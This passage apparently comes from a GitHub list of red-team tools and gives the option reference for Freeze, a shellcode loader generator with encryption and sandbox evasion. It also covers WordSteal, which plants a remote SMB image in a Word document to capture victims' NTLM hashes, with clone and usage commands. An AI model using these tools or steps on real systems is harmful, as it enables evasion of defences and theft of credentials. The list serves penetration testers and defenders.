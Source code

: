 ```
  -I string
        Path to the raw 64-bit shellcode.
  -O string
        Name of output file (e.g. loader.exe or loader.dll). Depending on what file extension defined will determine if Freeze makes a dll or exe.
  -console
        Only for Binary Payloads - Generates verbose console information when the payload is executed. This will disable the hidden window feature.
  -encrypt
        Encrypts the shellcode using AES 256 encryption
  -export string
        For DLL Loaders Only - Specify a specific Export function for a loader to have.
  -process string
        The name of process to spawn. This process has to exist in C:\Windows\System32\. Example 'notepad.exe' (default "notepad.exe")
  -sandbox
        Enables sandbox evasion by checking:
                Is Endpoint joined to a domain?
                Does the Endpoint have more than 2 CPUs?
                Does the Endpoint have more than 4 gigs of RAM?
  -sha256
        Provides the SHA256 value of the loaders (This is useful for tracking)
```

![image](https://user-images.githubusercontent.com/100603074/216729312-6e03f5d2-29a7-4190-8187-daecebfc6a9c.png)

_Image used from https://www.blackhatethicalhacking.com/tools/freeze/_

### [🔙](#tool-list)[WordSteal](https://github.com/0x09AL/WordSteal)

This script will create a Microsoft Word Document with a remote image, allowing for the capture of NTML hashes from a remote victim endpoint.

Microsoft Word has the ability to include images from remote locations, including a remote image hosted on an attacker controlled SMB server. This gives you the opportunity to listen for, and capture, NTLM hashes that are sent when an authenticated victim opens the Word document and renders the image.

**Install:**

```
git clone https://github.com/0x09AL/WordSteal
cd WordSteal
```

**Usage:**

```bash
# Generate document containing 'test.jpg' and start listener
./main.py 127.0.0.1 test.jpg 1

# Generate document containing 'test.jpg' and do not start listener
./main.py 127.0.0.1 test.jpg 0\n
```
